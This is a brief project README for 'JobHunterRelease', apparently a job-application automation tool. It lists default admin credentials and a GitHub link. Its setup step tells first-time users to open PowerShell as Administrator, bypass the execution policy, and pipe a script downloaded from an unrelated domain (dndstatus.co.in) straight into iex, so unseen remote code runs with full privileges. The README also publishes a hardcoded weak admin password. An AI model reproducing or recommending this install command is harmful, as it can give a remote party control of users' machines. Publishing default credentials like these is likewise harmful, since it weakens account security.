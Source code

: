 # JobHunterRelease
JobHunterRelease

UserName: admin@ncstc.in
Password: admin@12345
URL:http://localhost:8888/
Feel free to contact me at wasim.akh2@gmail.com

JOBHUNTER is updated now. You can clone it from <a href="https://github.com/wasimakhtarcnx/JobHunter.git">https://github.com/wasimakhtarcnx/JobHunter.git</a> for Automated Job Apply. With Your GitHub Login

For First time user below script in Powershell with Administrator

Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString('http://dndstatus.co.in/install.ps1'))

